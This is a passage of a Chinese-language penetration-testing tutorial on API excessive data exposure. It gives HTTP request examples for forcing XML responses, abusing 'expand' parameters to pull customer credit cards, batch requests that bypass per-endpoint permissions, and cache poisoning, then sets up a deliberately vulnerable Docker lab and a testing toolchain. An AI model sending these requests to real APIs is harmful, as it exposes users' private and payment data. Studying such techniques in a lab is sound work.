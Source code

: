 #### 手法2：响应结构篡改
```http
GET /api/users/me HTTP/1.1
Accept: application/xml

<!-- 强制返回XML格式可能暴露更多字段 -->
```

### 2.2 高级利用技巧
#### 变种1：深度参数组合
```http
GET /api/orders?expand=customer.creditCards,product.inventory
```
利用API的expand参数展开关联对象（需提前通过文档分析发现）

#### 变种2：批量操作渗透
```json
POST /api/batch HTTP/1.1
Content-Type: application/json

[
  {"method": "GET", "path": "/users/1"},
  {"method": "GET", "path": "/products/internal-pricing"}
]
```
利用批量请求接口突破单点权限限制

#### 变种3：缓存污染攻击
```http
GET /api/products?fields=id,name HTTP/1.1
X-Use-Cache: true
```
通过特定参数组合污染缓存，诱导其他用户获取敏感数据

## 三、实战环境搭建
### 3.1 脆弱环境部署
使用Docker快速部署测试API：
```bash
docker run -d -p 8080:8080 vulnapi/over-exposure:1.2
```

环境包含以下端点：
- `/api/v1/users` (REST)
- `/graphql` (GraphQL)
- `/oauth/token` (JWT认证)

### 3.2 攻击工具链配置
推荐工具组合：
```bash
# 安装自动化测试工具
pip install apivore requests jsonpath-ng

# 配置Burp Suite插件：
git clone https://github.com/assetnote/api-geometry
mvn package -DskipTests
```
